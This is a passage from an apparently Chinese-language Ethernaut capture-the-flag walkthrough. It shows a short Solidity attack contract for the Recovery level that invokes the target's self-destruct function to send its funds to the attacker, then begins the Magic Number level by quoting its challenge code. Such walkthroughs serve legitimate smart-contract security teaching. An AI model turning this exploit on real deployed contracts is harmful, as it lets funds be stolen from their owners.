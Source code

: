 ![](../images/ethernaut/e17/1.jpg)
得到地址后，我们只需要执行合约的自毁函数即可<br/>
攻击合约：
```
pragma solidity ^0.6.0;
contract attack{
    address payable target;
    address payable owner;
    constructor(address payable _target, address payable _own) public{
        target = _target;
        owner = _own;
    }

    function dosome() public {
        target.call(abi.encodeWithSignature("destroy(address)",owner));
    }
}
```
>在执行dosome()方法的时候最好把交易的gaslimit调高一点，我在执行时如果不调gaslimit是会执行失败的，如图：
![](../images/ethernaut/e17/2.jpg)

## 18 Magic Number
这是一个考察solidity操作码的题目
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract MagicNum {

  address public solver;

  constructor() public {}

  function setSolver(address _solver) public {
    solver = _solver;
  }

  /*
```